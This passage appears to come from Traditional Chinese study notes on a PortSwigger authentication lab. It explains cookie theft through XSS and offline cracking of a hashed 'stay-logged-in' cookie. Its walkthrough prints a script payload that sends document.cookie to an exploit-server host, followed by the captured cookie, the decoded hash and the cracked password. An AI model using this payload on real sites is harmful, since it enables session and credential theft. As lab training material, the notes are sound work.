     ![alt](src/image10.png)
:::

即使攻擊者無法建立自己的帳戶，他們仍可能利用這個漏洞。使用常見技術（如 XSS），攻擊者可以竊取其他使用者的「記住我」Cookie，並從中推斷出 Cookie 的建構方式。如果網站是使用開源框架建構的，Cookie 建構的關鍵細節甚至可能有公開文件記錄。

在某些罕見情況下，即使密碼經過雜湊處理，也可能從 Cookie 中取得使用者的實際明文密碼。知名密碼清單的雜湊版本可以在網路上取得，因此如果使用者的密碼出現在這些清單中的其中一個，解密雜湊有時可能簡單到只需要將雜湊貼到搜尋引擎中。這證明了鹽值在有效加密中的重要性。

::: tip Lab: [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

1. 貼文留言的地方存在 XSS。
2. 留言以下 Payload 取得 carlos 的 Cookie
    ```http
    <script>document.location='https://your-exploit-id.exploit-server.net/'+document.cookie</script>
    ```
3. 前往 Access log 查看取得 carlos 的 Cookie：
    ```http
    secret=YjOFBT63CYQsOGg8OCJEo9vRKcYPbBtT;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
    ```
4. 將 `stay-logged-in` 的值經過 base64 decode 後取得 carlos 的密碼 Hash：`26323c16d5f4dabff3bb136f2460a943`
5. 經過 [Hash Crack](https://crackstation.net/) 後，取得 carlos 的密碼：`onceuponatime`
6. 使用 carlos 的帳號密碼登入並刪除帳號完成此 Lab。
:::
